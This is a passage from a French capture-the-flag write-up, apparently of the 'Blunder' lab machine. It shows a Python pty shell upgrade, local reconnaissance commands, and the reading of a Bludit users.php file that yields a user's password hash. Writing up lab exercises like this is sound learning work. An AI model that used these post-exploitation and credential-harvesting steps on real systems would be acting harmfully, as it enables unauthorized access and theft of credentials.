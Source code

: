 Et pour obtenir un shell utilisable :

```
python -c "import pty;pty.spawn('/bin/sh')"
```



![image-20200605125757335](image-20200605125757335.png)

Un peu de reconnaissance locale.

```
$ uname -a
uname -a
Linux blunder 5.3.0-53-generic #47-Ubuntu SMP Thu May 7 12:18:16 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux

$ cat /etc/issue
cat /etc/issue
Ubuntu 19.10 \n \l

$ ls /home
ls /home
hugo  shaun
```

Le flag n'est pas accessible, seul Hugo peut le lire.

```
$ ls -als /home/hugo/*
/home/hugo:
total 80
...
4 -r--------  1 hugo hugo   33 Jun  5 08:32 user.txt
```

Je m'aperçois qu'il y a deux sites sans doute ancien et nouveau site comme c'était évoqué dans la todo.txt list.

```
$ pwd
/var/www/bludit-3.9.2/bl-content/tmp

$ ls -l
ls -l
total 12
drwxr-xr-x 8 www-data www-data 4096 May 19 15:13 bludit-3.10.0a
drwxrwxr-x 8 www-data www-data 4096 Apr 28 12:18 bludit-3.9.2
drwxr-xr-x 2 root     root     4096 Nov 28  2019 html
```

Voyons le contenu de users.php du nouveau site. Un compte Hugo et son empreinte de mot de passe !

```
$ pwd          
pwd
/var/www/bludit-3.10.0a/bl-content/databases
$ cat users.php
cat users.php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
        "email": "",
        "registered": "2019-11-27 07:40:55",
```
